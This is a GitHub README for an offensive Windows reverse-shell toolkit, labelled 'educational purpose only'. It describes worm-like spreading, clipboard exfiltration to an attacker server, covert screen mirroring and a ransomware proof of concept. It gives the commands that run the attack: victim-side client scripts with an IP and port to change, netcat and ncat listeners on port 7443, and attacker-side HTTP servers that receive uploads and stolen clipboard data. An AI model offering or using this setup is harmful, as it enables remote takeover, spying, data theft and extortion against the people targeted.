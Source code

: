 # Reverseshell mixed with Personnal Command 
EDUCATIONAL PURPOSE ONLY and IF YOU HAVE PERMISSION

Intergrated Commandes
-Worm itr self( new port and create child process) # TODO Make the Process independant
-ClippyON ClippyOFF Send the clipboard to a server as POST Server Need to be ON( sudo python3 ServerHttp_Content.py 80 ) For exemple
-CreapyON CreapyOFF Screen Mirror to the attacker machine // Kali needs to pip3 install ssm 
![image](https://user-images.githubusercontent.com/26183588/212199897-2bc19bb8-13c0-4931-838b-6f2d57eb5789.png)
-Ransom  Is for the Ransom -> DO NOT USE IT IS A POC ONLY


sudo python3 ServerHttp_Content.py 80 -> Clippy
nc --ssl -lvnp 7443 -> SSL Shell
python3 -m http.server 9090 -> FileServer to Upload and Download
![image](https://user-images.githubusercontent.com/26183588/212199470-58963b23-b821-4d47-909e-50fd790731ba.png)
python3 ServerScreenShoot.py --> Creapy // SCreen Mirroring


![image](https://user-images.githubusercontent.com/26183588/212199608-0a3a253f-01fe-4f9a-8d29-1fbc14001be7.png)


usage
victim
python revshell_client_win.py # change the IP and PORT
Kali
nc -lvnp 7443



victim
python revshell_client_win_ssl.py # change the IP and PORT
Kali
ncat --ssl -lvp 7443 
![image](https://user-images.githubusercontent.com/26183588/211539028-d1a362db-4ed9-45aa-9b22-4668173c1719.png)
